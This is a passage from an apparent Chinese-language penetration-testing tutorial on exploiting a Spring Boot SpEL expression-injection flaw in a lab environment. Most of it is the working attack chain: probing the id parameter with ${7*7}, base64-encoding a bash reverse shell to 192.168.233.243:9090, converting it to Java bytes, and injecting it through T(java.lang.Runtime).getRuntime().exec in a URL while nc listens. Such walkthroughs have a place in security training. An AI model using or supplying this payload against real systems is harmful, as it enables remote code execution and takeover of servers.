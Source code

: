 

##### 利用实例

环境是上面的资源集合的springboot-spel-rce，环境搭建参照上方

在搭建过程中可能会出现启动jar包时提示没有主清单属性，需要在pom.xml文件中添加依赖完成(参照文章[点击这里](https://blog.csdn.net/weixin_44373935/article/details/90046451))



访问https://127.0.0.1:9091/article?id=${7*7}

可以看到错误页面中花括号里面的表达式已经计算出来啦，49。此处参数点可利用

![image-20210827133545079](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210827133545079.png)

下面将花括号里面的修改成需要执行的命令

首先要将命令字符串转换为java字节形式，利用上面的python脚本

这里执行的命令为bash反弹shell，先将其进行base64编码转换([在线转换地址](http://www.jackson-t.ca/runtime-exec-payloads.html))

```
bash -i > & /dev/tcp/192.168.233.243/9090  0>&1

转换后:
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzMy4yNDMvOTA5MCAwPiYx}|{base64,-d}|{bash,-i}
```



在将其转换为java字节

![image-20210827151659784](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210827151659784.png)



使用nc监听192.168.233.243的9090端口

```
nc -lvvp 9090

```



将转换后的java字节拼接到payload中，在浏览器中访问

```
http://192.168.233.243:9091/article?id=${T(java.lang.Runtime).getRuntime().exec(new%20String(new%20byte[]{0x62,0x61,0x73,0x68,0x20,0x2d,0x63,0x20,0x7b,0x65,0x63,0x68,0x6f,0x2c,0x59,0x6d,0x46,0x7a,0x61,0x43,0x41,0x74,0x61,0x53,0x41,0x2b,0x4a,0x69,0x41,0x76,0x5a,0x47,0x56,0x32,0x4c,0x33,0x52,0x6a,0x63,0x43,0x38,0x78,0x4f,0x54,0x49,0x75,0x4d,0x54,0x59,0x34,0x4c,0x6a,0x49,0x7a,0x4d,0x79,0x34,0x79,0x4e,0x44,0x4d,0x76,0x4f,0x54,0x41,0x35,0x4d,0x43,0x41,0x77,0x50,0x69,0x59,0x78,0x7d,0x7c,0x7b,0x62,0x61,0x73,0x65,0x36,0x34,0x2c,0x2d,0x64,0x7d,0x7c,0x7b,0x62,0x61,0x73,0x68,0x2c,0x2d,0x69,0x7d}))}
```



反弹shell成功

![image-20210827152313055](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210827152313055.png)
